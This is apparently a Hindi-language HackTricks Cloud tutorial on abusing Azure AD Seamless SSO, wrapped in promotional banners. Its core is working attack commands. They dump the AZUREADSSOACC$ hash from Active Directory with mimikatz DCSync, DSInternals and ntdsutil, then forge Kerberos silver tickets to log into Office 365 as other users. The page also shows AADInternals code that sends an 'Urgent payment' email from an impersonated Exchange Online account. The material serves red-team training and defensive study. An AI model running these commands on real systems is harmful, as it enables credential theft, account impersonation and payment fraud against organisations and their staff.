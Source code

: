 # Az - सीमलेस SSO

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## मूल जानकारी

Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) स्वचालित रूप से **उपयोगकर्ताओं को साइन इन करता है जब वे अपने कॉर्पोरेट डिवाइस पर होते हैं** जो आपके कॉर्पोरेट नेटवर्क से जुड़े होते हैं। सक्षम होने पर, **उपयोगकर्ताओं को Azure AD में साइन इन करने के लिए अपने पासवर्ड टाइप करने की आवश्यकता नहीं होती है**, और आमतौर पर, उन्हें अपने उपयोगकर्ता नाम भी टाइप करने की जरूरत नहीं होती। यह सुविधा आपके उपयोगकर्ताओं को आपके क्लाउड-आधारित अनुप्रयोगों तक आसान पहुंच प्रदान करती है बिना किसी अतिरिक्त ऑन-प्रिमाइसेस घटकों की आवश्यकता के।

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

मूल रूप से Azure AD Seamless SSO **उपयोगकर्ताओं को साइन इन करता है** जब वे **ऑन-प्रिम डोमेन जॉइन्ड PC पर होते हैं**।

यह [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) और [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) दोनों द्वारा समर्थित है।

Desktop SSO **Kerberos** का उपयोग करके प्रमाणीकरण करता है। कॉन्फ़िगर किए जाने पर, Azure AD Connect ऑन-प्रिम AD में **कंप्यूटर अकाउंट AZUREADSSOACC`$`** बनाता है। `AZUREADSSOACC$` अकाउंट का पासवर्ड **कॉन्फ़िगरेशन के दौरान Azure AD को प्लेन-टेक्स्ट के रूप में भेजा जाता है**।

**Kerberos टिकट** **एन्क्रिप्टेड** होते हैं **NTHash (MD4)** का उपयोग करके पासवर्ड के और Azure AD भेजे गए पासवर्ड का उपयोग करके टिकटों को डिक्रिप्ट करता है।

**Azure AD** एक **एंडपॉइंट** (https://autologon.microsoftazuread-sso.com) प्रदर्शित करता है जो Kerberos **टिकट** स्वीकार करता है। डोमेन-जॉइन्ड मशीन का ब्राउज़र इस एंडपॉइंट को SSO के लिए टिकट आगे भेजता है।

### ऑन-प्रिम -> क्लाउड

उपयोगकर्ता **`AZUREADSSOACC$` का पासवर्ड कभी नहीं बदलता है**। इसलिए, एक डोमेन एडमिन इस अकाउंट के **हैश को समझौता कर सकता है**, और फिर उसका उपयोग करके **किसी भी ऑन-प्रिम उपयोगकर्ता को सिंक करने के लिए सिल्वर टिकट बना सकता है** जो Azure से जुड़ा हो:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
हैश के साथ आप अब **सिल्वर टिकट्स जनरेट कर सकते हैं**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
सिल्वर टिकट का उपयोग करने के लिए:

1. _Mozilla Firefox_ लॉन्च करें।
2. **`about:config`** पर जाएं और [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) प्राथमिकता को [मान](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com` पर सेट करें।
3. किसी भी वेब एप्लिकेशन पर नेविगेट करें जो हमारे AAD डोमेन के साथ इंटीग्रेटेड है। हम [Office 365](https://portal.office.com/) का उपयोग करेंगे, जो सबसे आम तौर पर इस्तेमाल किया जाता है।
4. लॉगऑन स्क्रीन पर पहुंचने के बाद, उपयोगकर्ता नाम भरें, पासवर्ड फील्ड को खाली छोड़ दें। फिर TAB या ENTER दबाएं।

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
यह MFA को बायपास नहीं करता है अगर सक्षम हो
{% endhint %}

#### ~~क्लाउड-ओनली उपयोगकर्ताओं के लिए केर्बेरोस टिकट बनाना~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

यदि एक्टिव डायरेक्टरी प्रशासकों के पास Azure AD Connect तक पहुंच है, तो वे किसी भी क्लाउड-उपयोगकर्ता के लिए **SID सेट कर सकते हैं**। इस तरह से केर्बेरोस **टिकट** भी क्लाउड-ओनली उपयोगकर्ताओं के लिए **बनाए जा सकते हैं**। एकमात्र आवश्यकता यह है कि SID एक उचित [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) हो।

{% hint style="danger" %}
क्लाउड-ओनली एडमिन उपयोगकर्ताओं का SID बदलना अब **Microsoft द्वारा अवरुद्ध है**।\
जानकारी के लिए [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/) देखें।
{% endhint %}

### On-prem -> Cloud via Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

जो कोई भी कंप्यूटर खातों (`AZUREADSSOACC$`) को प्रबंधित कर सकता है, जिस कंटेनर या OU में यह खाता है, वह **खाते पर आधारित संसाधन आधारित प्रतिबंधित प्रतिनिधिमंडल को कॉन्फ़िगर कर सकता है और इसे एक्सेस कर सकता है**।

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाया जाए** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह।
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**।
* **HackTricks** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
